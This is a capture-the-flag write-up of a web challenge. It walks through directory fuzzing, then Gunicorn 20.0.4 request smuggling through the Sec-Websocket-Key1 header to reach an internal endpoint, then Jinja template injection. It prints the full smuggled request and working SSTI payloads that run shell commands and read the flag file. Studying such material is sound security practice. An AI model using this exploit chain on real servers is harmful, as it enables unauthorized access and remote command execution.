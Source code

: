 # Green Coffee 

Challenge Description: 
My n00b friend built this web application for his coffee business.
Can you help me pwn it?

Note: Enumeration is allowed, but don't use very large wordlists.
http://34.76.206.46:10014

The site appears to be static with no real information on it. from the description we can see we need to find something from enumeration.

from running the following command. we pretty quickly find an internal endpoint
```ffuf -u  http://34.76.206.46:10014/FUZZ -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt --mc all --fs 207```

```
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://34.76.206.46:10014/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 207
________________________________________________

internal                [Status: 200, Size: 163, Words: 42, Lines: 8, Duration: 22ms]
forbidden               [Status: 200, Size: 163, Words: 42, Lines: 8, Duration: 72ms]
```

From viewing this page we get the message "You shouldn't be here. This is for internal use only"

So clearly we need to view this from some internal method. 


One of the server respone headers shows us that it is running Gunicorn/20.0.4

```❯ curl http://34.76.206.46:10014/internal -vvv
*   Trying 34.76.206.46:10014...
* Connected to 34.76.206.46 (34.76.206.46) port 10014 (#0)
> GET /internal HTTP/1.1
> Host: 34.76.206.46:10014
> User-Agent: curl/7.74.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< server: gunicorn/20.0.4
< date: Sat, 22 Oct 2022 19:24:34 GMT
< content-type: text/html; charset=utf-8
< content-length: 163
```

A quick google of that version and you can find this blog post https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/

This blog post details how using the "Sec-Websocket-Key1" header can result in request smuggling

After following the proof of concept given. I had the following payload working in BurpSuite Note: For this to work. you'll need to disable update content length in burp repeater

![](https://i.imgur.com/O7vvLRy.png)

On the right hand side you can see
```
<html>
    <head>
        <title>Internal Portal</title>
    </head>
    <body>
        <h1>Internal Portal</h1>
        <h3>GET err: Missing username parameter</h3>
    </body>
</html>
```

So we can hit the internal portal. It's missing the "username" parameter.

```
GET /a HTTP/1.1
Host: 34.76.206.46:10014
Content-Length: 68
Sec-Websocket-Key1: x

xxxxxxxxGET /internal?username=admin HTTP/1.1
Host: 127.0.0.1:10014

GET /internal HTTP/1.1
Host: localhost
```
Cropped Response:
```
<html>
    <head>
        <title>
            Internal Portal
        </title>
    </head>
    <body>
        <h1>Internal Portal</h1>
        <h3>Welcome, admin</h3>
    </body>
</html>
```

Knowing the backend was likely python. I tried SSTI with the normal ```{{7*7}}``` payload


```
<html>
    <head>
        <title>
            Internal Portal
        </title>
    </head>
    <body>
        <h1>Internal Portal</h1>
        <h3>Welcome, 49</h3>
    </body>
</html>
```

Okay so we have SSTI. Now to get the flag. 

```/internal?username={{%20config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read()%20}}```

Gives us the return
```
<html>
    <head>
        <title>
            Internal Portal
        </title>
    </head>
    <body>
        <h1>Internal Portal</h1>
        <h3>Welcome, app.py
flag.txt
requirements.txt
static
templates
</h3>
    </body>
</html>
```

So now we just run 
```
/internal?username={{%20config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("cat%20flag.txt").read()%20}}
```

```
<html>
    <head>
        <title>
            Internal Portal
        </title>
    </head>
    <body>
        <h1>Internal Portal</h1>
        <h3>Welcome, jadeCTF{smuggl3r_smuggl1ng_p4yl04ddd!}</h3>
    </body>
</html>
```

Flag: jadeCTF{smuggl3r_smuggl1ng_p4yl04ddd!}
